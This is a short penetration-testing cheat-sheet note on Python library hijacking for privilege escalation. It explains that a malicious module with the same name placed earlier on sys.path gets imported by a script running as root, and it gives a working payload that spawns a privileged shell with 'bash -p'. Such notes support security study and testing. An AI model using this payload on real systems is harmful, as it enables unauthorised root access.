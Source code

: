 - **tags:** #python #privesc 
- --------------
# Intro
```python
import sys
print(sys.path)
>> ['', '/usr/lib/python38.zip', '/usr/lib/python3.8', '/usr/lib/python3.8/lib-dynload', '/home/hector/.local/lib/python3.8/site-packages', '/usr/local/lib/python3.8/dist-packages', '/usr/lib/python3/dist-packages']
```

When *importing libraries, python will proceed to look for in the above directories*. Let’s say we’ve got access to run a script as *root* and this scripts begins by importing some modules from the system. We may be able to exploit it by creating a file named the same way as the original library and use a payload like the following.
```python
import os
os.system("bash -p")
```

**Miscellaneous:** To list all the python built-in modules run the following.
```python
import sys
print(sys.builtin_module_names)
```
To find out where does a library reside in the system run:
```python
import pwn

print(pwn.__file__) #view where the imported library is located in the system
```
Alternatively: `pip3 show pwn`